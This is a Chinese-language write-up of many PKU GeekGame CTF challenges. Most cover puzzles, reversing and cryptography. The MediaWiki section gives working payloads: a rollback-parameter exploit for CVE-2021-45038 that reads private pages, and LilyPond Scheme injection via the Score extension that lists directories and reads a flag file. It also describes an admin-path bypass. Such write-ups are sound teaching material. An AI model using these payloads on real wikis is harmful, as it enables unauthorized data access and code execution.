

# Writeup DF4D0155  
  
*此件无条件公开*  
  
大家好，我脚本小子DF4D0155又~~莱~~菜啦！  
题量变大了，我变菜了【哭】
  
## †签到†  
**又**是大家最喜欢的Wingdings！  
在Chorme内直接Ctrl+A Ctrl+C即可。  
  
    别急 别急  
    WELCOME ABOARD,  
    ALL PLAYERS! GO TO  
    GEEKGAME.PKU.EDU.CN  
    AND SUBMIT THE FLAG:  
    fa{ecm_badGeGmV!  
    lgWloeAor@ekae2}  
  
与往届相同，上下行阅读即可。  
  
    flag{Welcome_Aboard@GeekGameV2!}  
  
## 小北问答·极速版  
**又**是大家最喜欢的善用搜索引擎环节！  
多试几次就知道一共有八道题，每次抽七道，其中两道题面中给出数字不固定。  
得到第二个flag需答题时间3s以内。当然是使用大家最喜欢的pwntools。  
  
### Q1  
访问网址 “http://ctf.世界一流大学.com” 时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？  
  
试一下可知是
    
    ctf.xn--4gqwbu44czhc7w9a66k.com  
  
### Q2  
北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？  
  
众所周知，gStore是北京大学王选计算机研究所数据管理实验室自主研发的一款全新开源图数据库系统…… (无误  
点开邹磊老师的学术论文列表，可知最早一篇关于gStore的文章是  
  
    gStore: Answering SPARQL Queries via Subgraph Matching. Proc. VLDB Endow. 4(8): 482-493 (2011)  
  
    DOI为10.14778/2002974.2002976。  
  
### Q3  
支持 WebP 图片格式的最早 Firefox 版本是多少？  
  
https://developer.mozilla.org/en-US/docs/Mozilla/Firefox/Releases/65  
  
    65  
  
### Q4  
在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 %d 级关卡需要多少金钱？  
  
https://github.com/PKU-GeekGame/geekgame-1st/blob/master/src/pygame/game/server/libtreasure.py  
  
~~~python  
GOAL_OF_LEVEL = lambda level: 300+int(level**1.5)*100  
~~~  

现算。

### Q5  
每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？  

直接用7zip打开apk，查看AndroidManifest.xml可得。

    cn.edu.pku.pkurunner
  
### Q6  
我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？  

    ————不会做————
  
### Q7  
我刚刚在脑海中想了一个介于 %d 到 %d 之间的质数。猜猜它是多少？  

从OEIS或者wiki或者随便什么地方顺藤摸瓜，可以找到：  
http://compoasso.free.fr/primelistweb/page/prime/liste_online_en.php

现查即可。

需要注意题目给出的区间内**大概率有多个质数，蒙吧。**

### Q8  
视频 bilibili.com/video/BV1EV411s7vu 也可以通过 bilibili.com/video/av_____ 访问。下划线内应填什么数字？  

我懒，所以随手找了个工具转了。

    418645518
  
### flag
写个脚本，遇到MAC地址题就重开，质数猜错就重开即可。

    flag{I-am-the-king-oF-anxiEtY}
    
    flag{now-You-have-Learnt-hOw-tO-use-pwntools}

## 编原译理习题课  
又是大家最喜欢的大战编译器！  
  
谁能想到我**又**被编译器卡了好几天呢.jpg

### flag1
众所周知非0的全局变量会被扔到.data里。  
只要填起来就好啦！
~~~cpp
char magic[1024 * 1024 * 10] = { '\n' };
~~~

    flag{not-Much-lArger-than-an-eleCtroN-app}

### 但是其实……&flag2
其实我不是这么做的。我被卡了。而且毫无思路。

我在google一串英文关键词无望之后，因为一次中文搜索，找到了：

https://www.zhihu.com/question/61427323

随即找到了:

https://github.com/vijos/malicious-code

他拯救了我(的flag1和flag2)。感谢大家(可能是过去)最喜欢的vijos。

~~~cpp
struct x struct z<x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(y,x(y><y*,x(y*w>v<y*,w,x{}
~~~

    flag{short volAtile pRogram; long long mEssaGe;}

### flag3
答案是打开gcc.gnu.org/bugzilla，然后试吧！

https://gcc.gnu.org/bugzilla/show_bug.cgi?id=90747
~~~cpp
struct a {};
template <typename> struct b { a operator*(); };
template <typename c, typename d> c e(d);
template <typename, typename d> auto e(b<d> f) -> decltype(e<int>(*f)) {}
void blah() { e<a>(b<int>{}); }
//EOF
~~~
    
    flag{sorry-TO-Inform-you-that-gNu-is-not-unix}

## Flag Checker  
直球使用JD-GUI解包。  
### Flag1  
~~~java  
byte[] arrayOfByte = this.textField1.getText().getBytes("UTF-8");  
/* 74 */     String str = rot13(Base64.getEncoder().encodeToString(arrayOfByte));  
/*   */    
/* 76 */     if ("MzkuM8gmZJ6jZJHgnaMuqy4lMKM4".equals(str)) {  
/* 77 */      JOptionPane.showMessageDialog(null, "Correct");  
/*   */     } else {  
/* 79 */      JOptionPane.showMessageDialog(null, "Wrong");  
/*   */     }  
~~~  
可知flag1先Base64再rot13。需要注意下方提供了ROT13的实现代码，数字也进行了对应的转换；一些常用市面工具可能无法直接使用。  
  
    ZmxhZ3tzMW1wMWUtanZhdl9yZXZ9  
    flag{s1mp1e-jvav_rev}  
  
*题外话，做到这才发现CCBC archive不知道啥时候挂了……*
  
### Flag2  
  
注意到有这么一串：  
~~~java  
/* 33 */   ScriptEngineManager scriptEngineManager = new ScriptEngineManager();  
/* 34 */   ScriptEngine scriptEngine = scriptEngineManager.getEngineByName("nashorn");  
  
  
/* 40 */    String str = "‰šŒ›†€ÏŒ‡ŠŒ„‰ƒŽˆÝǰߗŽ×܊—ÝƔ™ŽÏ°ß—ØÝۍҴȌ‡Ž¬€‹Š®›ÈÃȂŽŸÈÃÈÈÃȜŸƒ†›ÈÃȜ›†ˆ†‰–ÈÃȬ€ŠŒ›ÈÃȸ€ˆÈÃȅÂȲԝŠ›šÏÇ¥¼ ¡´°ß—ØÝۍ´Û²²Ç°ß—Ž×܊—Ý´°ß—ØÝۍ´Ü²²Ç°ß—ØÝۍ´Ý²Æ´°ß—ØÝۍ´Þ²²Ç‰šŒ›†€Ç°ß—Ž×܊—ÜƔŠ›šÏ°ß—Ž×܊—Ü´°ß—ØÝۍ´ß²²Ç߃ÆÆÒÒÏ¥¼ ¡´°ß—ØÝۍ´Û²²Ç´ßÃÞÚÃÞÙÃÞØÃÜßÃÞßÚÃÞÙÃÜÞÃÞÙÃÙØÃÜÃÜÜÃÚÃÙßÃÛÃÞßÙÃÙÃÛÞÃßÃÞÃÙØÃÜÃÞÙÃÛÃÙÃÜÜÃÝÜݲ´°ß—ØÝۍ´Þ²²Ç‰šŒ›†€Ç°ß—Ž×܊—ÜƔŠ›šÏnj‡ŠŒ„‰ƒŽˆÝÄϰߗØÝۍ´Ý²Æ´°ß—ØÝۍ´ß²²Ç°ß—Ž×܊—܃ÆÆаߗØÝۍ´Ú²Õ°ß—ØÝۍ´Ù²Æ’";  
/* 41 */    StringBuilder stringBuilder = new StringBuilder();  
/* 42 */    for (byte b = 0; b < str.length(); b++)  
/* 43 */     stringBuilder.append((char)(str.charAt(b) ^ 0xEF));  
/* 44 */    scriptEngine.eval(stringBuilder.toString());  
~~~  
由nashorn可知这是js。  
  
跑一遍可以得到js代码：  
~~~js  
function checkflag2(_0xa83ex2) {  
 var _0x724b = [  
  "charCodeAt",  
  "map",  
  "",  
  "split",  
  "stringify",  
  "Correct",  
  "Wrong",  
  "j-",  
 ];  
 return JSON[_0x724b[4]](  
  _0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function (_0xa83ex3) {  
   return _0xa83ex3[_0x724b[0]](0);  
  })  
 ) ==  
  JSON[_0x724b[4]](  
   [  
    0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 4, 106, 6, 41, 0,  
    1, 67, 3, 16, 4, 6, 33, 232,  
   ][_0x724b[1]](function (_0xa83ex3) {  
    return (checkflag2 + _0x724b[2])[_0x724b[0]](_0xa83ex3);  
   })  
  )  
  ? _0x724b[5]  
  : _0x724b[6];  
}  
~~~  
与java中的checkflag2对应。去混淆 (指字符串替换)，跑一遍==后边的代码可得：  
  
    [102,108,97,103,123,106,97,118,97,115,99,114,105,112,116,45,111,98,102,117,115,99,97,116,111,114,125]  
  
转换成对应字符可得：  
  
    flag{javascript-obfuscator}  
  
  
## 智慧检测器  
又是大家最喜欢的有手就能玩！  
  
### flag1  
代码审计可以发现 (但其实我是手玩调试才意识到的)：  
~~~py  
if (NewPos[0] < 0) or (NewPos[1] < 0) or (NewPos[2] < 0) or \  
  (NewPos[0] >= entry[1]) or (NewPos[1] >= entry[0]) or (NewPos[2] >= entry[0]) or \  
  (NewDirection=='U' and map[NewPos[0]][NewPos[1]][NewPos[2]]!='-') or \  
  (NewDirection=='D' and map[NewPos[0]][NewPos[1]][NewPos[2]]!='+') or \  
  (map[NewPos[0]][NewPos[1]][NewPos[2]] in "X#S"):  
  print("Invalid Direction")  
  break  
  
#Remap CurPos to NewPos  
CurPos = NewPos  
if map[CurPos[0]][CurPos[1]][CurPos[2]] == "E":  
  print("Congratulations! You finished within %d moves."%MoveCount)  
  FoundEnd = True  
  break  
~~~  
此处CurPos = NewPos会直接传递对象的引用。所以一旦被执行，此后的操作中即使输入了Invalid Direction被break，CurPos也会在break前即被修改。但需要注意，执行之本身需要一个合规的操作。  
  
因此让游戏崩溃的方法就十分显然，只需开局输入：  
  
    RU  
  
即会因为到达不存在的二楼而崩溃。  
  
    got <class 'IndexError'>  
    flag{game.exe-stoPS-responding...send-errOR-report?}  
  
### flag2  
  
同上，既然可以到达不存在的二楼，那么也就可以穿墙啦！  
  
T1T2有手就能过，略。  
  
T3相对紧张一些：由于大小为55*55，层数为80，99步的步数限制就相对紧张；而每一次非法操作前都必须有一次被计入次数的合法操作，所以80层就对应着79个U之前的前缀合法步数。如果如无头苍蝇一般先登上80层再说，最后就可能步数不足。  
  
看代码可知，出口的位置和出生点位置相关；只会出现在地图左上角的2/3和右下角的1/3外沿上，且一定在出生点的对边上。  
  
所以需要保证在U之前的前缀步尽可能向着出口可能的方向靠近。期间可以尝试使用偶遇的Teleport；总之知道这一点之后手完就完事了。  
  
个人的最大障碍在于经常在第80层继续习惯性一个U，结果喜提flag1。  
  
经过若干次失败尝试后可得：  
   
    Congratulations! You finished within 91 moves.  
    flag{dear-playeR-thanks-fOr-enjoying-thIs-ubisOft-game}  
   
~~可见复现的这一次步数也比较紧张~~  
  
~~育碧律师函.jpg~~  
  
### 但是……  
  
是的，但是。但是什么呢？  
  
但是我写flag1的时候为了追求节目效果尝试到达“不存在的地下室”，结果没到成。如果输入RD，你会发现一切都没有变化。  
  
为什么呢？  
  
因为这里是python。  
  
~~~py  
0-1==-1  
map[-1]==map[len(map)-1]  
~~~  
  
**RD可以直接速通到最后一层。**  
  
我崩在错过最后一层的那半个小时啊啊啊啊啊啊————  

### 但是但是
  
不，不对。  
  
因为上述合规判定规则有一条：  
  
~~~py  
NewPos[0] < 0  
~~~  
  
所以到达看似最后一层实为地下室的位置之后就会被打入地牢锁死动不了！  
  
只能R了！  
  
其意义仅限于让你开局就知道出口在哪儿好往上靠 (。  
  
## 我用108天录了个音  
  
不知道为什么直觉上第一反应就是使用ogg。可能是因为刚做完wiki，而印象中wiki上的音频以ogg为多？  
  
*不过现在意识到了这可能是因为ogg free&open就是了。*  
  
压缩试了，用AU乱压一气，把自录语音换成腾讯云合成的语音，各种调参，最后最小压到20K压不下去了，寄！  
  
第一阶段已经意识到需要欺骗ffprobe以完成长度要求了；但尝试爆改头文件发现头文件完全不明，寄。 (我承认我偷懒没去看ffprobe怎么实现的，我紫菜。)二阶段在提示下意识到了只需要把两段音频流顺序拼进一个文件中就好啦！问题是怎么拼呢？经过google，找到了：  
  
https://manpages.ubuntu.com/manpages/focal/man1/oggz-merge.1.html  
  
    For example, if you have an Ogg Theora video file, and its soundtrack stored separately as Ogg Speex audio file, and you can use oggz-merge to create a single Ogg file containing the video and audio, interleaved together in parallel.  
  
是的，这玩意是把媒体流平行而非顺序拼起来的，所以没用。  
  
但是他的文档给了贴心提示：  
  
    If you want to create a file containing some Ogg files sequenced one after another, then you should simply concatenate them together using cat.  
  
所以只要把音频分两段导出成两个ogg然后cat起来扔上去就好了。  
  
    flag{4G + HemonyOS > 5G}  
  
## 企鹅文档  
是大家最喜欢的流量分析！

众所周知腾讯文档的opendoc请求相应下可以直接看到文档内容。但默认参数只获取前60行：

    startrow=0&endrow=60

需更改endrow参数以获取完整信息。

我们选择直接在chorme里右键复制为curl改了endrow之后扔进bash。得到：

    https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next

下载附件，解压，是一个xhr。

以flag为关键字检索。在对着一堆请求大眼瞪小眼半天之后，我找到了：
    
    https://docs.qq.com/dop-api/get/sheet?u=75c5d3b1d8fb43489cd2c3033995b7a5&subId=BB08J2&rev=1&fRev=1&padId=300000000$WXeutgzDgPlQ&wb=1&isChunks=true&nowb=0&xsrf=1f438a6825f53e17&_r=8500&revdata=1&outformat=1&normal=1&startrow=0&endrow=2000

    "Below is your flag"

嗯。下边一连串单元格的内容都是
    
    {"0":1,"3":1}

注意到单元格序号并不连续，但递增，且最大值较大。推测这是某种格式标记，未出现的单元格即为空，出现的为无字符但有填充的单元格。

同时，返回的JSON中还有：

    "maxrow": 234
    "maxcol": 11

推测其编号完全连续，但每11个单元格为一行。
遂写脚本：
~~~py
for i in range(0,234):
    for j in range(0,11):
        if str(i*11+j) in a.keys():
            print("■",end="")
        else:
            print(".",end="")
            pass
    print()
~~~

接下来读就好了。剩下的最大障碍就是部分字符(比如说，p和s)无法识别大小写，需要猜了。

    flag{ThisIsNotSPonsoredByTencent}

~~不保证大小写准确性，没法验证了~~

## 私有笔记  
是大家最喜欢的Mediawiki。  
  
看主页，已经明示了足够多的信息：查CVE，查bug report，以及flag1在flag词条页面里。  
  
先看版本，发现是1.34.4；同时注意到非常吊诡地只安装了一个Extension——Score。  
  
### flag1  
  
实际上，无需查看CVE，只需进入1.34版本主页面(https://www.mediawiki.org/wiki/MediaWiki_1.34) 就能看到：  
  
    MediaWiki 1.34 contains a very severe security issue. Please upgrade to newer versions of MediaWiki if possible. See 2021-12 security release/FAQ for workaround if you are not able to upgrade your MediaWiki.  
  
这是个什么呢？  
  
    CVE-2021-45038: The "rollback" feature (action=rollback) could be passed a specially crafted parameter that allowed an attacker to view the contents of arbitrary pages, regardless of whether they had permissions to do so.  
  
phabricator(https://phabricator.wikimedia.org/T297574)给了我们更明确的信息：  
  
    Using ?action=rollback&from={{:private page}}, users can access private wiki contents.  
  
所以只需访问 prob07.geekgame.pku.edu.cn/index.php?action=rollback&from={{:flag}} 即可得到  
  
    User name: Flag1  
    Password: flag{insecure_01d_mediavviki}  
    Try RCE to find Flag 2.  
  
### flag2  
   
很显然flag2就是Score的问题了。很容易就能找到 https://phabricator.wikimedia.org/T257062。  
  
这个漏洞的核心在于Score使用了LilyPond，其基于Scheme语言绘制乐谱。  
~~~html  
<score>\new Staff <<{c^#  
[scheme code goes here]  
}>></score>  
~~~  
  
此处的代码实际上可执行更多功能，如示例给出的(object->string (uname))。  
  
  
但到这里就卡住了！Scheme读取目录使用的是opendir和readdir那一套，需要对opendir得到的directory stream多次readdir才能得到完整结果；而我多次测试也无法在此处执行多句代码。  
  
我因为不会函数式被吊起来打.jpg  
  
在一阶段结束当天的早上，我~~因为睡不着在床上翻来覆去~~想还有哪儿能做的时候，对此题恍然大悟：我们被原始报告中的代码格式误导了。  
  
上述代码实际上是：  
  
~~~html  
<score>\new Staff <<{  
c^#[scheme code goes here]  
}>></score>  
~~~  
^后是音符c的上标，#是Scheme语句的开始标志；所以只能执行一句；但可以通过多个音符的多个上标执行多个语句。 (本质上还是因为不会函数式被吊起来打)  
  
所以：  
~~~scheme  
<score>\new Staff <<{  
    #(define dir (opendir "/"))  
    #(define (average a b c) (/ (+ a b c) 3))  
    c^#(object->string (readdir dir))  
    c^#(object->string (readdir dir))  
    c^#(object->string (readdir dir))  
    //此处略  
 }>></score>  
~~~  
可得:  
  
如法炮制:  
~~~scheme  
<score>\new Staff <<{  
#(define file (open-input-file "/flag2"))  
    c^#(object->string(read-char file))  
    c^#(object->string(read-char file))  
    c^#(object->string(read-char file))  
    c^#(object->string(read-char file))  
    //此处略  
~~~  
  
  
    flag{li1yp0nd_can_1ead_to_rce}  
  
## 企业级理解  
看错题了所以最后也只做出了flag1.jpg  
  
看错了什么呢——把8080和8079看反了！以为已经跑在bonus上了，纳闷flag2在哪儿纳闷了三天。 (  
  
看清之后一眼SSRF，不过试了试发现没看错也不会打。  
  
那这就没什么可说的了：直接加/绕过matcher到 https://prob08-kgidgpdh.geekgame.pku.edu.cn/admin/query/  
  
~~~java  
if (queryBean.getType() == null) {  
    queryBean.setType("PKU");  
}  
  
.body(BodyInserters.fromFormData("type", queryBean.getType()))  
~~~  
POST请求加  --data-raw 'type=PKU_GeekGame' 得到flag1。  

    flag1{8a97cd0b-adec-4e63-bd46-3e6c60ea9d78} 恭喜你发现flag1，还有其他flag等待你发现哦

发现不动了！

最多找到了：https://stackoverflow.com/questions/54733280/how-to-keep-baseurl-when-using-uri-in-spring-webflux 意识到或许可以通过使uri的参数为完整的url以跳转，但一直在400，寄！
  
## 这也能卷  
我太菜了.jpg  
  
开局直接摸进premium.html，看源码可以看到premium.js，明显经过巨大多混淆;Ctrl+F可以发现  
~~~js  
const flag0 = _0x340c07(0x65d, 'aIlf', 0x554, 0x7bc, 0x7c0) + _0x340c07(0x522, 'mxb3', 0x41a, 0x61d, 0x5ed) + _0x476726('Zml(', 0x605, 0x57c, 0x6a1, 0x5a5) + _0x476726('UwsG', 0x5d6, 0x5c1, 0x500, 0x601) + _0x5e5705('mmNu', 0x1d0, 0x354, 0x339, 0x1d1) + _0x476726('][gJ', 0x3b3, 0x4c7, 0x43a, 0x401);  
~~~  
好了，只需要大战反调试之后控制台直接flag0就好了！我总之采用了十分暴力的把调反调试的某个函数改成了空函数的方法。  
但复盘发现这里有个非常非常简单的方法可以无需大战。  
  
Chrome是个好东西 (大概 (可能是因为我没做出来XSS吧 (逃  
  
    flag{fr0nt3nd_log1c_m4tters}  
  
之后的完全没思路！  
  
## 编原译理习题课 · 实验班  
是神奇的Rust！  
  
flag1本质和编译原理一样——就是查bug。但遇到的问题也和编译原理一样——试了一大堆他就是不崩。  
于是第二阶段注意到了提示2，尝试通过把函数强制链接到奇奇怪怪的段，也没崩。  
最后索性乱做一气把两边代码拼起来——他崩了。  
~~~rust  
#![forbid(unsafe_code)]  
  
use std::iter::FromIterator;  
  
#[derive(Debug)]  
enum MyEnum {  
    DroppedTwice(Box<i32>),  
    PanicOnDrop,  
}  
  
impl Drop for MyEnum {  
    fn drop(&mut self) {  
        match self {  
            MyEnum::DroppedTwice(_) => println!("Dropping!"),  
            MyEnum::PanicOnDrop => {  
                if !std::thread::panicking() {  
                    panic!();  
                }  
            }  
        }  
    }  
}  
  
#[link_section = ".rodata"]  
pub fn run() {  
    let v = vec![MyEnum::DroppedTwice(Box::new(123)), MyEnum::PanicOnDrop];  
    Vec::from_iter(v.into_iter().take(0));  
}  
//EOF  
~~~  
  
    flag{W0W-yoU_pRoVed-thI5_I5-un5OUNd}  
  
我是一个今天之前完全没写过rust的人，遂知难而退见好就收。  
  
## 381654729  
大家好，我又把Algorithm做成Misc啦.jpg  
  
Google可知381654729是累进可除数 (Polydivisible number)。这与源代码中所做的相吻合；  
~~~py  
num_len=len(hex(num))-2  
for i in range(1,num_len+1):  
    if (num>>((num_len-i)*4))%i>0:  
        print("Wrong")  
        exit()  
~~~  
本质就是在验证num是一个base 16的polydivisible number。找到它，与2511413510786744827230530123596520839592789293371773973906异或即可。  
  
英语wiki贴心地给出了OEIS链接(https://oeis.org/A109032)；但因为实在太多了(如二阶段提示所述)，所以对于base 16的polydivisible number，OEIS最多也只能给出一个(也就是最大值)。尝试之后发现不对。  
  
但是以polydivisible number为关键词检索，可以找到：  
https://s2t2.home.blog/2021/03/29brainteaser-1040-an-uncommon-number/  
评论区有老哥给出了“三个最长的” (显然也就是最大的三个)base 16 polydivisible numbers。  
挨个试，试到第二个(0xAA44CE207C78FC30003C3CC0D8382E2078D07EF),中了。  
  
    flag{fOund_magIc_nuMbEr}  
  
## 乱码还原  

问题是怎么来的？答案是utf-8的部分字符在转换为shift_jis后会无法找到对应的字符从而丢失。

注意到，转换后会丢失信息的情况是有限的。在本题中，所有的utf-8字符第一字节均在[0xe3,0xe9]中，且上述范围内的字节一定为utf-8字符的开头。那么会导致丢失的绝大多数情况包括以下两种：

1. 从一个utf-8字符的开头断开。那么其首两字节一定能转换为shift_jis字符;最后一个字节可能不合规(如0x80)，或无法与下一个字符首字节转换为单一字符。

2. 从一个utf-8字符的第一字节后断开，即首字节被与前一字符尾字节合并。此时若第二字节不能作为字符开头(如0x80)，其就会丢失，第三字节需要与情况1类似的讨论；或二三字节不能构成合法字符，则一并丢失。

枚举与佛论禅涉及的所有汉字可能导致的上述情况，可以列出一个表：

~~~py
{b'\xe6\xbb': [b'\xe6\xbb\x85'],
 b'\xe5\xa9': [b'\xe5\xa9\x86'],
 b'\xe8\xb6': [b'\xe8\x80\xb6'],
 b'\xe9\x99': [b'\xe9\x99\x80'],
 b'\xe9\xbd': [b'\xe9\x83\xbd'],
 b'\xe7\x8d': [b'\xe7\x88\x8d'],
 b'\xe6\x9b': [b'\xe6\x80\x9b'],
 b'\xe8\x80': [b'\xe8\x80\x85', b'\xe8\x80\x81'],
 b'\xe8': [b'\xe8\x80\x85', b'\xe8\x98\x87', b'\xe8\x80\x81'],
 b'\xe7\xa9': [b'\xe7\xa9\x86'],
 b'\xe8\x98': [b'\xe8\x98\x87'],
 b'\xe9\xaf': [b'\xe9\x86\xaf'],
 b'\xe8\x8d': [b'\xe8\x88\x8d'],
 b'\xe5\x8f': [b'\xe5\x8f\x83'],
 b'\xe9\xae': [b'\xe9\x81\xae'],
 b'\xe8\xb1': [b'\xe8\xb1\x86'],
 b'\xe9\x9d': [b'\xe9\x80\x9d'],
 b'\xe6\x97': [b'\xe6\xa0\x97'],
 b'\xe7\xbe': [b'\xe7\xbe\x85'],
 b'\xe5\xaf': [b'\xe5\xaf\x86'],
 b'\xe6\x95': [b'\xe6\x95\x85'],
 b'\xe5\x88': [b'\xe5\x88\x87'],
 b'\xe5': [b'\xe5\x88\x87'],
 b'\xe4\xb8': [b'\xe4\xb8\x80'],
 b'\xe8\xbd': [b'\xe8\x83\xbd'],
 b'\xe6\x8e': [b'\xe6\x98\x8e'],
 b'\xe8\xa8': [b'\xe8\x80\xa8'],
 b'\xe6\xa7': [b'\xe6\xa7\x83'],
 b'\xe6\xb6': [b'\xe6\xb6\x85'],
 b'\xe5\x92': [b'\xe5\x80\x92'],
 b'\xe9\x81': [b'\xe9\x81\xa0'],
 b'\xe6\x96': [b'\xe6\x80\x96'],
 b'\xe5\xbf': [b'\xe5\xbf\x83'],
 b'\xe6\x89': [b'\xe6\x89\x80'],
 b'\xe3\x82': [b'\xe3\x80\x82'],
 b'\xe9\x9b': [b'\xe9\x9b\x86'],
 b'\xe8\x81': [b'\xe8\x80\x81'],
 b'\xe8\xb3': [b'\xe8\x87\xb3'],
 b'\xe5\xa5': [b'\xe5\x86\xa5'],
 b'\xe5\x93': [b'\xe5\x93\x86'],
 b'\xe6\xaf': [b'\xe6\x80\xaf'],
 b'\xe4\xbe': [b'\xe4\xbe\x84']}
~~~
对着转换即可。对于有多种可能原始字符的情况，则枚举补齐尝试看是否可解回为合法字符。

最后一个字符则需要单独讨论。

flag2的十次base%d加密可以通过密文所含字符集反推加密方式。
  
## 奇怪的加密  
首先明确题目采用的加密方式：初始时所有字符的密钥均为其本身。但初始化了一个密钥的轮换顺序；每次加密后密钥即按序发生轮换。

### flag1  
显然，由于每过一个可加密字符密钥就轮换一次，常规的词频分析(指出现最多的字母就是e)是不能用了。但是有一个非常显然的事实可以利用：单字母小写的单词一定是a。  
  
筛出所有单字母小写的单词，查看相同字符每两次出现之间的可加密字符数(即密钥的变换次数)，容易发现其均为22的倍数。又因为出现的密文字符种类多于11种，故可以判断此处为22个字母为一组在轮换。  
  
确认此处22个字母在轮换后，每两个相邻单字母单词密文之间的可加密字符数模22，即为他们在轮换顺序上中间相差的字母数。以此可以得到22个字符之间的密钥轮换关系，进而得到大多数的明文；从大多数的明文可以反推得出剩下四个字符的群组关系。

从而得到完整的明文。明文中有：

    The flag is foxtrot lima alpha golf left bracket foxtrot romeo echo nine uniform echo november charlie yankee underscore four november alpha lima yankee five india sierra underscore one sierra underscore uniform sierra echo foxtrot uniform lima right bracket.

NATO编码，转换即可。
    
    flag{fre9uency_4naly5is_1s_useful}
  
### flag2  
一阶段完全没明白过来这是什么，甚至没意识到其加密方式与flag1相同(悲  
  
此处连上述的频率分析方式都不能用了，因为他根本没有实际意义。  
  
统计密文中各个字符每两次连续出现间的密钥变化次数，发现26个字母几乎有相同的模式：即变化次数基本均有1-7，9、11、13、15、17、19-26次(仅a没有1次)，均无8、12、14、16、18次。这符合26个字母的密钥为一组在轮换的情况。  
  
而根据这一模式规律，可以推定a-f六个字母在26个字母的轮换环上的位置情况。首先确定有两个字符相差13个位置；又由于没有出现12、14次，故该两个字符相邻位置均必不是a-f；无8\10\16\18同理。上述过程可排除掉12个位置。又因为出现了1次，故仅剩的两处两字母相邻位置之一必然均为a-f；而另一处则不能同时为a-f，否则与无12次相悖。确定这一点后，根据1-7均有，可以推出六个字符的完整位置模式，如图。

  
同时，容易注意到密文中多次出现了两个相同字符反复出现的情况：这意味着a-f中有至少两个字母在轮换关系中紧邻(这也符合我们上一阶段的结果)。因为已知了每26次轮换就会回到密文=明文，可以查看出现密文中相同字符时密钥变换次数模26为0或25的情况；发现紧邻的两个字母为b和d。  
  
明确确定两个字母后，即可根据每次出现两个字母相同时密钥轮换次数模26的值得到所有字符的位置关系。

    13 n  7 e  16 s  4 u  10 i  12 x  14 k  19 q  16 s  18 o  0 b  2 j  8 p  20 c  15 m  24 f  23 w  14 k  19 q  3 z  15 m  0 b  16 s  23 w  25 l  6 v  7 e  16 s  20 c  11 r  21 h  18 o  11 r  12 x  20 c  25 l  17 t  22 y  2 j  6 v  10 i  15 m  18 o  23 w  18 o  1 d  6 v  12 x  14 k  16 s  16 s  8 p  1 d 

~~其实知道是26个字母在轮换之后就可以直接得到这一步了.jpg~~

从而得以解密。得到明文，检索第一段发现是MD5，爆破即可。我们只枚举了单个和两个字符的情况：

    The MD5 message-digest algorithm is a cryptographically broken?t ??widely used hash function p?ucing ?28-b??h value.?ag?md5_1s_re41ly_1n5ecur3? Althoug?D5 was?????gned to be u???crypto?phic h??nction,???een found? suffer from extensive vulnerabil?s.

已经可以得到flag了。

    flag{md5_1s_re41ly_1n5ecur3}
  
  
## 扫雷 II  
**又**是大家最喜欢的扫雷！  
**又**是大家最喜欢的伪随机数生成！  
### flag1  
注意到重置seed只有两种情况：加载时和点击reset时，以当时的timestamp为seed。  
又注意到在Level1下点击开始游戏后即直接进入genBoard1函数，该函数内直接调了256次rand.Intn(257)。  
还注意到在boom时click请求会返回完整的地图。  
  
那么只需要点击reset，记录时间，点击Level1，自爆；然后枚举点击reset前后的timestamp，尝试以之设为seed，调用genBoard1，然后比较生成的board与boom后实际得到的board就可以啦！一致就是找到了正确的seed！  
  
~~~go  
func main() {  
	var x int64  
	x= 1669118319000  
	for i := x-1000; i < x+1000; i++ {  
		rand.Seed(i)  
		var genBoard func() Board  
		var curBoard Board  
		genBoard = genBoard1  
		curBoard = genBoard()  
		fullMarks := [16]int{0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff}  
		var boarda,boardb [16][16]int  
		boarda=showBoard(curBoard, fullMarks)  
		answer:= [16][16]int{}//此处略  
		if boarda==answer{  
			print(i)  
			boardb=showBoard(genBoard(), fullMarks)  
			for i := 0; i < 16; i++ {  
				fmt.Println(boardb[i])  
			}  
		}  
	}  
}  
  
~~~  
然后再生成一个，对着生成结果手玩下一轮即可。  
  
因为手玩太费劲了这里就不复现了(。  
  
### flag2  
感觉暴力能做，但想不到很高效的暴力方法而且懒了，寄！  
  
## 方程组  
是大家最喜欢的数学题！  
  
我们在这里使用了纯纯的高斯消元。  

### flag1  

纯纯的解方程！

解出来得到

    g00d_1inear_eqs`zkkm

前两个词显然没问题了，稍微看一下最后的这个词，进行一下邻近字符替换就可以得到：

    flag{g00d_1inear_equation}
  
  
### flag2

flag2有10个结果的信息未给出。但共28个变量中有6个的值是已经确认的：即flag{}。这样就变成了18个等式解22个变量。

我们在这里依然先使用纯纯的高斯消元。意外地解出来的前几个式子的系数还比较小，加之有几个字符非常明显("0"和"_")，简单替换临近字符可以得到明显有意义的前半个flag:

    y0u_are_a_
    
但后边的内容就因为最后四个变量系数过大只能放弃了。

此处我们枚举了最后四个变量(实际上由于次数过多采用了先用粗粒度枚举到一个区间再用细粒度枚举到值的做法)，尝试令解出之后得到的所有已知变量的根与其已知实际值的差的绝对值之和最小。可得最后四个变量应当临近trer(最后发现应当是sser)。

~~~py
def enc(a,b,c,d):
    res=[]
    p=primes[:28]
    for i in range(18):
        tmp=[]
        for j in p[5:-5]:
            tmp.append(Decimal(j).sqrt())
        tmp.append(Decimal(ans[i])-sum(Decimal(p[k]).sqrt()*f[k] for k in range(5))-Decimal(p[-5]).sqrt()*a-Decimal(p[-4]).sqrt()*b-Decimal(p[-3]).sqrt()*c-Decimal(p[-2]).sqrt()*d-Decimal(p[-1]).sqrt()*ord('}'))
        res.append(tmp)
        #res.append(sum([Decimal(p[i]).sqrt()*int(flag[i]) for i in range(26)])-Decimal(ans[i]))
        p=[p[-1]]+p[:-1]

minSave=[]
